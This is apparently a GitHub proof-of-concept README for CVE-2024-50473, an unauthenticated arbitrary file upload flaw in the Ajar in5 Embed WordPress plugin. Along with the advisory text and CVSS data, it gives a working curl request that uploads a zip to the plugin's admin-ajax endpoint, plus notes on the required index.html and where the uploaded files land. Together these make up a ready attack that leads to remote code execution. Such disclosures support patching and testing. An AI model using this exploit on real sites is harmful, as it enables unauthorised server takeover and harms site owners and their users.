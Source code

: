 # CVE-2024-50473
Ajar in5 Embed &lt;= 3.1.3 - Unauthenticated Arbitrary File Upload

# Description:
The Ajar in5 Embed plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in all versions up to, and including, 3.1.3. This makes it possible for unauthenticated attackers to upload arbitrary files on the affected site's server which may make remote code execution possible.


```
Published: 2024-10-25 00:00:00
CVE: CVE-2024-50473
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: ajar-productions-in5-embed
```

Note: Zip file must contain a index.html even if blank and you will get a 500 error which is normal.

The uploaded files for this will be found in /wp-content/uploads/2024/php5/ - php5 is the name of the zip file with out the extention.

POC
---

```
curl -X POST "http://kubernetes.docker.internal/wp-admin/admin-ajax.php?action=in5&in5=upload" \
-H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0" \
-H "Accept: application/json, text/javascript, */*; q=0.01" \
-H "Accept-Language: en-US,en;q=0.5" \
-H "Accept-Encoding: gzip, deflate, br" \
-H "Referer: http://kubernetes.docker.internal/wp-admin/post.php?post=4142&action=edit" \
-H "X-Requested-With: XMLHttpRequest" \
-H "Content-Type: multipart/form-data" \
-F "customPath=wp-content/uploads/2024/" \
-F "files[]=@/path/to/php5.zip" \
--compressed
```
